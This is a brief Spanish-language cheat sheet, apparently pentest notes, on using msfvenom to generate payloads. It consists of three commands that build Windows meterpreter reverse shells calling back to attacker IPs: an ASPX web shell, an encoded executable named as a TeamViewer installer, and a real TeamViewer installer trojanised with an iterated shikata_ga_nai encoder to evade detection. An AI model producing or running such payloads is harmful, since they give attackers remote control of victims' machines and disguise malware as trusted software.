 # MSFVENOM
## Descripción
MSFVENOM es una herramienta que viene integrada en metasploit framework que sirve principalmente para crear payloads, podemos ver algunos ejemplos con enconders para darle algo mas de sabor.

### Forma Típica
```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```

### Encoder shikata_ga_nai sin interacciones
```python
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -o ./TeamViewerInstall.exe
```

### Encoder shikata_ga_nai con interacciones
```python
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.37 LPORT=443 -x /home/kali/Downloads/TeamViewerQS_x64.exe -e x86/shikata_ga_nai -a x86 --platform windows -i 10 -k -f exe > /home/kali/Downloads/giafar.exe
```

